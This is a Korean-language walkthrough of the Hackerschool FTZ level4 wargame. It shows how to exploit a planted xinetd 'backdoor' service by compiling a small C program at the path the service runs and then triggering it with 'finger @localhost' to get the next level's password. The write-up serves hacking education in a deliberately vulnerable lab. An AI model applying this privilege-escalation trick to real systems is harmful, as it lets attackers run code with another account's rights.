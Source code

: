 # Hackserschool FTZ level4
---
- 앞에서 했던 것 처럼 hint를 보면 누군가                
    /etc/xinetd.d/에 백도어를 심어놓았다.!  

- 그래서 위의 주소로 들어가서  
>$ cd /etc/xinetd.d
>>여기서 xinetd는 서비스에 접속할시 사용자의 정보를 확인하는 곳..
>>>xinetd.d는 xinetd에서 제공할 서비스를 모아두는 디렉토리
>
>$ ls

안에 디렉토리나 파일들을 보면 
backdoor가 있다.
- backdoor가 실행도안되고 cd도 안되니 cat으로 파일을 확인 해보앗더니 
~~~
server = /home/level4/tmp/backdoor
~~~

- 그래서 
>$ cd /home/level4/tmp/backdoor
한뒤 
이곳에서 
>$ ls-al

를 하니 아무것도 없었다.

그래서 vim으로 코드를 짜서 실해하면 되지않을까?
>$ vim backdoor.c

~~~c
#include <stdio.h>
#include <stdlib.h>
int main(){
    system("my-pass");
    return 0;
}
~~~
 이렇게 하면 되지않을까?

 >$ gcc -o backdoor backdoor.c 
컴파일하면

>Level4 Password is ~~~~~~~

level4주소가나온다???

그러므로 finger @localhost를 사용하면 위의 xinetd.d의 backdoor 가 실행될것이다.

그러면 답이나옴.. 
